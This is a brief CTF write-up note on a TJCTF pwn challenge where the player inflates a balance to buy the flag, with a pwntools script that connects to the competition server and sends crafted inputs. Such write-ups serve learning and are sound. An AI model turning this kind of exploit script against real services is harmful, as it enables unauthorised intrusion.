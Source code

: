 ### N o T e S

---

Sometimes, just like web challenges, we have pwn questions where we need to attain a certain value to throw out the flag.
For example, i have 10 rupees and i can buy the flag for 1000 rupees.

Approach -->

python exploit : 

```py
from  pwn import *
context.log_level = 'critical'

s = remote ('problem1.tjctf.org', 8002)

print (s.recv())

for i in range (8):
   s.sendline('A anything')

s.sendline('A' + '2'*8)

s.sendline('F')
print(s.recv())
print(s.recv())
print(s.recv())

s.close()

```

#### character 2 has value 50 in python :

>>> chr(50)
'2'
>>> chr(100)
'd'

---

John Hammond video reference
